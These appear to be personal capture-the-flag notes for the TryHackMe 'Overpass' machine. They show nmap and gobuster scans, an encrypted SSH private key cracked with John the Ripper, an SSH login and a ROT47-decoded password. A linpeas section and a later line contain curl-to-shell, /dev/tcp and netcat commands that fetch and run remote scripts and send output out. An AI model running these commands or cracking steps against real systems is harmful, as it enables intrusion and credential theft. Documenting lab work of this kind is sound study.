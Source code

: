 ## nmap scanned
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9cd:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass

### potential users

Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant
### text notes 

store different passwords for
 every service, protected using military grade Cryptography
Yeah right, just because the Romans used it doesn't make it military grade, change this?

## gobuster scan
/aboutus              (Status: 301) [Size: 0] 
/admin                (Status: 301) [Size: 42] 
/css                  (Status: 301) [Size: 0] 
/downloads            (Status: 301) [Size: 0] 
/img                  (Status: 301) [Size: 0] 
/index.html           (Status: 301) [Size: 0]
/render/https://www.google.com (Status: 301) 

## id rsa private key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----


## after using ssh2john and johnntheripper 
└─$ john --wordlist=~/Desktop/rockyou.txt id_rsa.john 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa.hash)     
1g 0:00:00:00 DONE (2022-10-18 19:49) 3.846g/s 51446p/s 51446c/s 51446C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

## sshing into the machine 
ssh -i id_rsa james@10.10.193.109 p.w = james13
## ubuntu version
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64) potential PE


 ##   How to use linpeas?

#Local network
 sudo python -m SimpleHTTPServer 80 #Host
 curl 10.10.10.10/linpeas.sh | sh #Victim

 #Without curl
 sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
 cat < /dev/tcp/10.10.10.10/80 | sh #Victim

 #Excute from memory and send output back to the host
 nc -lvnp 9002 | tee linpeas.out #Host
 curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

 ## files found in home directory
  -.overpass 
  -user.txt conntaines the user flag

##  curl 10.8.4.214:9000/thm/tools/linpeas.sh | sh

## .overpass file content
containes a rot47 cipher:
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
  decrypted:[{"name":"System" "pass":"saydrawnlyingpicture"}]
